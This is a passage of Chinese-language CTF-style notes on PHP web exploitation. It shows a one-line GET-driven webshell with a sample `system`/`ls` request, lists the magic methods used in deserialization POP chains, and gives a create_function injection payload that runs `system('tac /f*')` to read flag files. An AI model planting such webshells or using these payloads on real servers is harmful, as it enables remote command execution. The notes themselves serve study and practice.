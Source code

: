 ```php
$_GET[_]($_GET[__])
```
这个代码将允许使用`GET`请求传参，把`_`的值作为函数名，把`__`的值作为函数的参数

比如下面的这个例子：

```php
UEL/?_=system&__=ls
```



---
# 十三. 反序列化

多类php构造pop链，一般将eval、flag等危险函数或关键字作为链尾

`__invoke()`:__invoke是对象被当做函数进行调用时就会触发，

`__toString()`:__ToString⽅法是当对象被当做字符串的时候会自动调用

`__set()`:__set是对不存在或者不可访问的变量进行赋值就会自动调用

`__call()`:__call是对不存在的方法或者不可访问的方法进行调用就自动调用



# 十四. PHP 拼接注入

```php
$a = $_GET['a'];
$b = $_GET['b'];
if(preg_match('/^[a-z0-9_]*$/isD',$a)){
    show_source(__FILE__);
}
else{
    $a('',$b);
}
```
针对上面的这种情况，要想进行绕过以执行web命令，需要先绕过白名单：

```php
\create_function('', ';}system(\'tac /f*\');/*')('', $b);
```

拼接后的结果为:
```sh
function anonymous() {
    ;}system('tac /f*');/*
}
```

即闭合了函数 create_function ，然后执行了 system 函数的内容，实现了 webshell

---